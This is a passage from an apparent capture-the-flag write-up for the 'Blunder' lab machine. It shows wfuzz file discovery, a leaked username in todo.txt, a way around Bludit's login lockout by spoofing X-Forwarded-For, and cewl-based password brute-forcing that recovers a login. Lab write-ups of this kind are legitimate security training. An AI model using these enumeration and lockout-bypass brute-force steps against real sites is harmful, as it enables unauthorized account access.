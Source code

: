 We'll go back to the website and try to fuzz for any other files. Since the admin page is a Bludit installation, it's unlikely that there's any extra files there so we'll search from the main page. After searching with different wordlists and file extensions, we get a hit.

```
# wfuzz -c --hc 403,404 -w /usr/share/wordlists/dirb/common.txt http://blunder.htb/FUZZ.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://blunder.htb/FUZZ.txt
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                            
===================================================================

000003435:   200        1 L      4 W      22 Ch       "robots"                                           
000004079:   200        4 L      23 W     118 Ch      "todo" 
```

The `robots.txt` is not very interesting but the `todo.txt` file has a good piece of information:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

With this, we've got a leaked username, `fergus`. We can try to brute force the password but after several seconds we would actually be locked out. After searching online, there is a [way around this](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) via another CVE.

By manipulating the `X-Forwarded-For` value in the header of our request to something random, we can bypass the IP address checking from Bludit and all of this is compatible with the version we have here. The article also provides a nice PoC that we can modify for our own uses.

If we try to brute force our way in with a wordlist like `rockyou.txt`, for example, this would take way too long. We need to create our own custom and small wordlist for this job. For this, we can use `cewl` which will scrape all the words from a page and create a wordlist from it.

```
# cewl http://blunder.htb -w wordlist.txt
```

With this custom wordlist, we can now try to log in to the page in hopefully much quicker time.

```
# python3 brute.py
...
[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```
